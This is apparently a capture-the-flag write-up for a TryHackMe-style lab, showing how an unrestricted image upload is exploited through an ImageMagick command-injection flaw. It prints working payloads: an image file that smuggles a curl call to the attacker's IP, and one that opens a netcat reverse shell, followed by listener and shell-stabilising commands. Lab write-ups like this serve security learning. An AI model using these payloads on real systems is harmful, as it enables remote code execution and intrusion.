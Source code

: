 Okay, so we can upload images. I fiddled around and found out that the upload was unrestricted. 

Also, after looking through the javascript I found that all the files can be foun on `http://$IP:8080/files` where links to the files are stored as json. Cool! But how can we get RCE?</br>

Since uploading a reverse shell and just curling it gives only the code again.... hmmmm... We are supposed to use our magic skills. Try searching for `image magick exploit` or look at the room tag. The `CVE` might give you some cool info!

## Exploit

A basic proof of concept from [PayLoadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Picture%20Image%20Magik/imagetragik1_payload_url_curl.png):
```
$ cat img.png

push graphic-context
viewbox 0 0 640 480
fill 'url(https://pre09.example.net/15bd/th/pre/f/2012/237/c/7/all_work_and_no_something/someting_by_nebezial-d5cdlor.jpg";curl "YOUR IP)'
pop graphic-context
```
Setup an `nc` listener at the same time:
```
$ nc -lvnp 80

connect to [YOUR IP] from (UNKNOWN) [10.10.188.169] 55362
GET / HTTP/1.1
Host: YOUR IP
User-Agent: curl/7.58.0
Accept: */*
```
And this will be the result. Awesome! Lets try upgrading it with a revershell (again from PayloadAllTheThings):
```
$ cat img.png

push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|mkfifo /tmp/gjdpez; nc IP PORT 0</tmp/gjdpez | /bin/sh >/tmp/gjdpez 2>&1; rm /tmp/gjdpez '
pop graphic-context
pop graphic-context

```
And a `nc` listener like so `nc -lvnp PORT`:
```bash
whoami
magician
```
Then we stabilize like so:
```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
magician@magician:/tmp/hsperfdata_magician$ export TERM=xterm; export SHELL=/bin/bash
<magician$ export TERM=xterm; export SHELL=/bin/bash
magician@magician:/tmp/hsperfdata_magician$ ^Z  <-- this is CTRL + Z
[1]+  Stopped                 nc -lvnp 8888
root@kali:~/CTFs/TryHackMe/magician# stty raw -echo;fg
```
Lets explore
